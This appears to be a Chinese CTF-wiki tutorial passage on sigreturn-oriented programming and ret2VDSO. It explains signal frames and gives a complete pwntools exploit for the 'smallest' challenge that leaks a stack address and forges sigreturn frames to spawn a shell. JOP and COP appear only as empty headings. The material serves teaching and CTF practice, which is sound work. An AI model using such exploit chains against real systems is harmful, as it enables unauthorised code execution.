[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0x8d bytes:
    'core\t     main    roptool.py   roputils.pyc\tstage2.py  stage4.py  stage6.py\n'
    '__init__.py  main.c  roputils.py  stage1.py\tstage3.py  stage5.py\n'
core         main    roptool.py   roputils.pyc    stage2.py  stage4.py  stage6.py
__init__.py  main.c  roputils.py  stage1.py    stage3.py  stage5.py

```

### 题目


## SROP

### 基本介绍

SROP(Sigreturn Oriented Programming)于2014年被Vrije Universiteit Amsterdam的Erik Bosman提出，其相关研究**`Framing Signals — A Return to Portable Shellcode`**发表在安全顶级会议[Oakland 2014](http://www.ieee-security.org/TC/SP2014)上，被评选为当年的[Best Student Papers](http://www.ieee-security.org/TC/SP2014/awards.html)。其中相关的paper以及slides的链接如下：

[paper](http://www.ieee-security.org/TC/SP2014/papers/FramingSignals-AReturntoPortableShellcode.pdf)

[slides](https://tc.gtisc.gatech.edu/bss/2014/r/srop-slides.pdf)

其中，`sigreturn`是一个系统调用，在类unix系统发生signal的时候会被间接地调用。

### signal机制

 signal机制是类unix系统中进程之间相互传递信息的一种方法。一般，我们也称其为软中断信号，或者软中断。比如说，进程之间可以通过系统调用kill来发送软中断信号。一般来说，信号机制常见的步骤如下图所示：



1.  内核向某个进程发送signal机制，该进程会被暂时挂起，进入内核态。

2.  内核会为该进程保存相应的上下文，**主要是将所有寄存器压入栈中，以及压入signal信息，以及指向sigreturn的系统调用地址**。此时栈的结构如下图所示，我们称ucontext以及siginfo这一段为Signal Frame。**需要注意的是，这一部分是在用户进程的地址空间的。**之后会跳转到注册过的signal handler中处理相应的signal。因此，当signal handler执行完之后，就会执行sigreturn代码。

    

    对于signal Frame来说，会因为架构的不同而有所区别，这里给出分别给出x86以及x64的sigcontext

    -   x86

    ```c
    struct sigcontext
    {
      unsigned short gs, __gsh;
      unsigned short fs, __fsh;
      unsigned short es, __esh;
      unsigned short ds, __dsh;
      unsigned long edi;
      unsigned long esi;
      unsigned long ebp;
      unsigned long esp;
      unsigned long ebx;
      unsigned long edx;
      unsigned long ecx;
      unsigned long eax;
      unsigned long trapno;
      unsigned long err;
      unsigned long eip;
      unsigned short cs, __csh;
      unsigned long eflags;
      unsigned long esp_at_signal;
      unsigned short ss, __ssh;
      struct _fpstate * fpstate;
      unsigned long oldmask;
      unsigned long cr2;
    };
    ```

    -   x64

    ```c
    struct _fpstate
    {
      /* FPU environment matching the 64-bit FXSAVE layout.  */
      __uint16_t		cwd;
      __uint16_t		swd;
      __uint16_t		ftw;
      __uint16_t		fop;
      __uint64_t		rip;
      __uint64_t		rdp;
      __uint32_t		mxcsr;
      __uint32_t		mxcr_mask;
      struct _fpxreg	_st[8];
      struct _xmmreg	_xmm[16];
      __uint32_t		padding[24];
    };

    struct sigcontext
    {
      __uint64_t r8;
      __uint64_t r9;
      __uint64_t r10;
      __uint64_t r11;
      __uint64_t r12;
      __uint64_t r13;
      __uint64_t r14;
      __uint64_t r15;
      __uint64_t rdi;
      __uint64_t rsi;
      __uint64_t rbp;
      __uint64_t rbx;
      __uint64_t rdx;
      __uint64_t rax;
      __uint64_t rcx;
      __uint64_t rsp;
      __uint64_t rip;
      __uint64_t eflags;
      unsigned short cs;
      unsigned short gs;
      unsigned short fs;
      unsigned short __pad0;
      __uint64_t err;
      __uint64_t trapno;
      __uint64_t oldmask;
      __uint64_t cr2;
      __extension__ union
        {
          struct _fpstate * fpstate;
          __uint64_t __fpstate_word;
        };
      __uint64_t __reserved1 [8];
    };
    ```

3. signal handler返回后，内核为执行sigreturn系统调用，为该进程恢复之前保存的上下文，其中包括将所有压入的寄存器，重新pop回对应的寄存器，最后恢复进程的执行。其中，32位的sigreturn的调用号为77，64位的系统调用号为15。

### 攻击原理

仔细回顾一下内核在signal信号处理的过程中的工作，我们可以发现，内核主要做的工作就是为进程保存上下文，并且恢复上下文。这个主要的变动都在Signal Frame中。但是需要注意的是：

- Signal Frame被保存在用户的地址空间中，所以用户是可以读写的。
- 由于内核与信号处理程序无关(kernel agnostic about signal handlers)，它并不会去记录这个signal对应的Signal Frame，所以当执行sigreturn系统调用时，此时的Signal Frame并不一定是之前内核为用户进程保存的Signal Frame。

说到这里，其实，SROP的基本利用原理也就出现了。下面举两个简单的例子。

#### 获取shell

首先，我们假设攻击者可以控制用户进程的栈，那么它就可以伪造一个Signal Frame，如下图所示，这里以64位为例子，给出Signal Frame更加详细的信息



当系统执行完sigreturn系统调用之后，会执行一系列的pop指令以便于恢复相应寄存器的值，当执行到rip时，就会将程序执行流指向syscall地址，根据相应寄存器的值，此时，便会得到一个shell。

#### system call chains

需要指出的是，上面的例子中，我们只是单独的获得一个shell。有时候，我们可能会希望执行一系列的函数。我们只需要做两处修改即可

- **控制栈指针。**
- **把原来rip指向的`syscall` gadget换成`syscall; ret` gadget。**

如下图所示 ，这样当每次syscall返回的时候，栈指针都会指向下一个Signal Frame。因此就可以执行一系列的sigreturn函数调用。



#### 后续

需要注意的是，我们在构造ROP攻击的时候，需要满足下面的条件

-   **可以通过栈溢出来控制栈的内容**
-   **需要知道相应的地址**
    -   **"/bin/sh"**
    -   **Signal Frame**
    -   **syscall**
    -   **sigreturn**
-   需要有够大的空间来塞下整个sigal frame

此外，关于sigreturn以及syscall;ret这两个gadget在上面并没有提及。提出该攻击的论文作者发现了这些gadgets出现的某些地址：



并且，作者发现，有些系统上SROP的地址被随机化了，而有些则没有。比如说`Linux < 3.3 x86_64`（在Debian 7.0， Ubuntu Long Term Support， CentOS 6系统中默认内核），可以直接在vsyscall中的固定地址处找到syscall&return代码片段。如下



但是目前它已经被`vsyscall-emulate`和`vdso`机制代替了。此外，目前大多数系统都会开启ASLR保护，所以相对来说这些gadgets都并不容易找到。

值得一说的是，对于sigreturn系统调用来说，在64位系统中，sigreturn系统调用对应的系统调用号为15，只需要RAX=15，并且执行syscall即可实现调用syscall调用。而RAX寄存器的值又可以通过控制某个函数的返回值来间接控制，比如说read函数的返回值为读取的字节数。

### 利用工具

**值得一提的是，在目前的pwntools中已经集成了对于srop的攻击。**

### 示例

这里以360春秋杯中的smallest-pwn为例进行简单介绍。基本步骤如下

**确定文件基本信息**

```text
➜  smallest file smallest
smallest: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
```

可以看到该程序为64位静态链接版本。

**检查保护**

```text
➜  smallest checksec smallest
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序主要开启了NX保护。

**漏洞发现**

实用IDA直接反编译看了一下，发现程序就几行汇编代码，如下

```asm
public start
start proc near
xor     rax, rax
mov     edx, 400h
mov     rsi, rsp
mov     rdi, rax
syscall
retn
start endp
```

根据syscall的编号为0，可以知道该程序执行的指令为read(0,$rsp,400)，即向栈顶读入400个字符。毫无疑问，这个是有栈溢出的。

**利用思路**

由于程序中并没有sigreturn调用，所以我们得自己构造，正好这里有read函数调用，所以我们可以通过read函数读取的字节数来设置rax的值。重要思路如下

- 通过控制read读取的字符数来设置RAX寄存器的值，从而执行sigreturn
- 通过syscall执行execve("/bin/sh",0,0)来获取shell。

**漏洞利用程序**

```python
from pwn import *
from LibcSearcher import *
small = ELF('./smallest')
if args['REMOTE']:
    sh = remote('127.0.0.1', 7777)
else:
    sh = process('./smallest')
context.arch = 'amd64'
context.log_level = 'debug'
syscall_ret = 0x00000000004000BE
start_addr = 0x00000000004000B0
## set start addr three times
payload = p64(start_addr) * 3
sh.send(payload)

## modify the return addr to start_addr+3
## so that skip the xor rax,rax; then the rax=1
## get stack addr
sh.send('\xb3')
stack_addr = u64(sh.recv()[8:16])
log.success('leak stack addr :' + hex(stack_addr))

## make the rsp point to stack_addr
## the frame is read(0,stack_addr,0x400)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(start_addr) + 'a' * 8 + str(sigframe)
sh.send(payload)

## set rax=15 and call sigreturn
sigreturn = p64(syscall_ret) + 'b' * 7
sh.send(sigreturn)

## call execv("/bin/sh",0,0)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

frame_payload = p64(start_addr) + 'b' * 8 + str(sigframe)
print len(frame_payload)
payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
sh.send(payload)
sh.send(sigreturn)
sh.interactive()
```

其基本流程为

- 读取三个程序起始地址
- 程序返回时，利用第一个程序起始地址读取地址，修改返回地址(即第二个程序起始地址)为源程序的第二条指令，并且会设置rax=1
- 那么此时将会执行write(1,$esp,0x400)，泄露栈地址。
- 利用第三个程序起始地址进而读入payload
- 再次读取构造sigreturn调用，进而将向栈地址所在位置读入数据，构造execve('/bin/sh',0,0)
- 再次读取构造sigreturn调用，从而获取shell。

### 题目

- [Defcon 2015 Qualifier: fuckup](https://brant-ruan.github.io/resources/Binary/learnPwn/fuckup_56f604b0ea918206dcb332339a819344)

参考阅读

- [Sigreturn Oriented Programming (SROP) Attack攻击原理](http://www.freebuf.com/articles/network/87447.html)
- [SROP by Angel Boy](https://www.slideshare.net/AngelBoy1/sigreturn-ori)
- [系统调用](http://www.cs.utexas.edu/~bismith/test/syscalls/syscalls64_orig.html)

## ret2VDSO

### VDSO介绍

什么是VDSO(Virtual Dynamically-linked Shared Object)呢？听其名字，大概是虚拟动态链接共享对象，所以说它应该是虚拟的，与虚拟内存一致，在计算机中本身并不存在。具体来说，它是将内核态的调用映射到用户地址空间的库。那么它为什么会存在呢？这是因为有些系统调用经常被用户使用，这就会出现大量的用户态与内核态切换的开销。通过vdso，我们可以大量减少这样的开销，同时也可以使得我们的路径更好。这里路径更好指的是，我们不需要使用传统的int 0x80来进行系统调用，不同的处理器实现了不同的快速系统调用指令

- intel实现了sysenter，sysexit
- amd实现了syscall，sysret

当不同的处理器架构实现了不同的指令时，自然就会出现兼容性问题，所以linux实现了vsyscall接口，在底层会根据具体的结构来进行具体操作。而vsyscall就实现在vdso中。

这里，我们顺便来看一下vdso，在Linux(kernel 2.6 or upper)中执行ldd /bin/sh, 会发现有个名字叫linux-vdso.so.1(老点的版本是linux-gate.so.1)的动态文件, 而系统中却找不到它, 它就是VDSO。 例如:

```shell
➜  ~ ldd /bin/sh
	linux-vdso.so.1 =>  (0x00007ffd8ebf2000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f84ff2f9000)
	/lib64/ld-linux-x86-64.so.2 (0x0000560cae6eb000)
```

除了快速系统调用，glibc也提供了VDSO的支持, open(), read(), write(), gettimeofday()都可以直接使用VDSO中的实现。使得这些调用速度更快。 内核新特性在不影响glibc的情况下也可以更快的部署。

这里我们以intel的处理器为例，进行简单说明。

其中sysenter的参数传递方式与int 0x80一致，但是我们可能需要自己布置好 function prolog（32位为例）

```asm
push ebp
mov ebp,esp
```

此外，如果我们没有提供functtion prolog的话，我们还需要一个可以进行栈迁移的gadgets，以便于可以改变栈的位置。

### 原理

待补充。

### 题目

- **Defcon 2015 Qualifier fuckup**

参考

- http://man7.org/linux/man-pages/man7/vdso.7.html
- http://adam8157.info/blog/2011/10/linux-vdso/

## JOP

Jump-oriented programming

## COP

Call-oriented programming
